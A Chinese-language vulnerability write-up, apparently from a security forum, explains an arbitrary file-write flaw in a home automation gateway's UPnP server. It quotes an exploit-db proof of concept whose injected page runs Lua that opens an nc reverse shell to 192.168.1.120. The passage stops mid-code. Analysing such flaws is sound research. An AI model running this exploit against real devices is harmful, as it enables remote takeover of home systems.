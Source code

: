 ![Pasted image 20220818163514.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a1eb65c43b8f7ec262ab7bcb11c507d8f77a4767.png)  
之后又是判断请求的资源是否和默认资源一样，一样才返回True。

后面又有if分支对不同的情况有不同的处理，这里的if比较奇葩，第一种是虚拟资文件夹，第二种是既不是虚拟文件夹，也不是alias，没有第三种。。。  
重点分析漏洞出现的位置。

![Pasted image 20220818163724.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-846a8f761e3001ec2914db929d701420f717aee7.png)  
这种模式下，URI直接被拼接到了rootDir的后面，然后去除末尾的/就直接完成了filename的赋值。  
结束if之后，又来了个请求方式的判定，是否是POST然后就直接返回了。所以理论上在RootDir以下，可以完成任意写。  
本来我想的利用方式比较粗糙，构造xml文件，在设备的描述方法里面添加别的描述方法，然后就可以执行一些非预期的命令。  
但是后来在exploit-db上发现了poc，该poc比我的利用方法好了太多。

```html

<html>
    <head>
        <meta charset="UTF-8">
        <script>
            function create_page(ip, frame_id)
            {
                payload = "\n" +
                          "<html>\n" +
                            "<head>\n" +
                                "<title>Try To See It Once My Way</title>\n" +
                                "<script>\n" +
                                    "function exec_lua() {\n" +
                                        "soap_request = \"<s:Envelope s:encodingStyle=\\\"http://schemas.xmlsoap.org/soap/encoding/\\\" xmlns:s=\\\"http://schemas.xmlsoap.org/soap/envelope/\\\">\";\n" +
                                        "soap_request += \"<s:Body>\";\n" +
                                        "soap_request += \"<u:RunLua xmlns:u=\\\"urn:schemas-micasaverde-org:service:HomeAutomationGateway:1\\\">\";\n" +
                                        "soap_request += \"<Code>os.execute(\"/bin/sh -c &apos;(mkfifo /tmp/a; cat /tmp/a | /bin/sh -i 2>&1 | nc 192.168.1.120 1270 > /tmp/a)&&apos;\")</Code>\";\n" +
                                        "soap_request += \"</u:RunLua>\";\n" +
                                        "soap_request += \"</s:Body>\";\n" +
                                        "soap_request += \"</s:Envelope>\";\n" +

                                        "xhttp = new XMLHttpRequest();\n" +
                                        "xhttp.open(\"POST\", \"upnp/control/hag\", true);\n" +
                                        "xhttp.setRequestHeader(\"MIME-Version\", \"1.0\");\n" +
                                        "xhttp.setRequestHeader(\"Content-type\", \"text/xml;charset=\\\"utf-8\\\"\");\n" +
                                        "xhttp.setRequestHeader(\"Soapaction\", \"\\\"urn:schemas-micasaverde-org:service:HomeAutomationGateway:1#RunLua\\\"\");\n" +
                                        "xhttp.send(soap_request);\n" +
                                    "}\n" +
                                "</scr\ipt>\n" +
                            "</head>\n" +
                            "<body onload=\"exec_lua()\">\n" +
                            "Zen?\n" +
                            "</body>\n" +
                          "</html>";

                var xhttp = new XMLHttpRequest();
                xhttp.open("POST", "http://" + ip  + ":49451/z3n.html", true);
                xhttp.timeout = 1000;
                xhttp.onreadystatechange = function()
                {
                    if (xhttp.readyState == XMLHttpRequest.DONE)
                    {
                        new_iframe = document.createElement('iframe');
                        new_iframe.setAttribute("src", "http://" + ip + ":49451/z3n.html");
                        new_iframe.setAttribute("id", frame_id);
```